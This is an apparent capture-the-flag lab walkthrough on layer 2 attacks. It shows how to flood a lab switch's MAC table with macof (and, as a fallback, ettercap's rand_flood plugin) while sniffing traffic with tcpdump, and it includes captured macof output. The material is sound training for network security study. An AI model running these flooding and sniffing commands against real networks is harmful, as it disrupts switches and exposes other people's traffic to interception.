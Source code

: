 For better usability, open a second SSH session. This way, you can leave the **tcpdump** process running in the foreground on the first SSH session:

`tcpdump -A -i eth1 -w /tmp/tcpdump2.pcap`

Now, on the second SSH session, buckle up and let **[macof](http://manpages.ubuntu.com/manpages/bionic/man8/macof.8.html)** run against the interface to start flooding the switch:  

`macof -i eth1`

After around 30 seconds, stop both **macof** and **tcpdump** (Ctrl+C).

As in the previous task, transfer the **pcap** to your machine (**kali/AttackBox)** and take a look:

`scp admin@10.10.37.150:/tmp/tcpdump2.pcap .   wireshark tcpdump2.pcap   `

Now, you should be able to answer questions **#1** and **#2**.

**Note:** If it didn't work, try to capture for 30 seconds, again (while **macof** is running).  
If it still won't work, give it one last try with a capture duration of one minute.  
As the measure of last resort, try using **[ettercap](https://www.kali.org/tools/ettercap/)** (introduced in the following tasks) with the **rand_flood** plugin:

`ettercap -T -i eth1 -P rand_flood -q -w /tmp/tcpdump3.pcap` (Quit with **q**)
<div align="center">
<br>
<br>
</div>

### Questions

##### What kind of packets is Alice continuously sending to Bob?

Start by turning on the tcpdump listening mode, and don’t forget to also write the output to a new .pcap file called “tcpdump2.pcap” and save it to the /tmp/ directory.

```shell
admin@eve:~$ sudo tcpdump -A -i eth1 -w /tmp/tcpdump2.pcap
[sudo] password for admin:
tcpdump: listening on eth1, link-type EN10MB (Ethernet), capture size 262144 bytes
^C212604 packets captured
212604 packets received by filter
0 packets dropped by kernel
```

Then open up a second SSH session, and type in the following command to start the MAC flooding attack.

```shell
admin@eve:~$ sudo macof -i eth1
e8:46:e9:68:34:52 b3:4b:8b:17:de:cb 0.0.0.0.18602 > 0.0.0.0.46920: S 1041758322:1041758322(0) win 512
5b:27:3b:69:69:9e ac:b3:12:41:3b:0 0.0.0.0.56708 > 0.0.0.0.37201: S 1765967874:1765967874(0) win 512
d3:59:88:27:b2:6d a0:a3:bd:2:89:e5 0.0.0.0.40940 > 0.0.0.0.64003: S 566850551:566850551(0) win 512
42:42:db:42:91:c5 e9:b9:b:11:5c:e8 0.0.0.0.47620 > 0.0.0.0.55834: S 1131137431:1131137431(0) win 512
21:a5:6b:11:99:1d 86:3f:73:4f:4b:ab 0.0.0.0.62345 > 0.0.0.0.64345: S 1442383875:1442383875(0) win 512
ba:f2:fc:1a:57:df ef:99:91:38:15:b4 0.0.0.0.11081 > 0.0.0.0.25805: S 352541912:352541912(0) win 512
bc:f3:d1:69:f8:f6 8b:33:11:53:83:28 0.0.0.0.32317 > 0.0.0.0.6491: S 1953037759:1953037759(0) win 512
56:86:94:3:b4:a8 46:e3:93:45:e4:18 0.0.0.0.58766 > 0.0.0.0.18314: S 1669684867:1669684867(0) win 512
e1:53:77:58:bf:cf e6:1d:fc:4:d8:fe 0.0.0.0.63151 > 0.0.0.0.12062: S 1873829088:1873829088(0) win 512
f8:64:30:b:1e:aa 5e:8a:26:55:c4:f6 0.0.0.0.36561 > 0.0.0.0.20703: S 1129092328:1129092328(0) win 512
```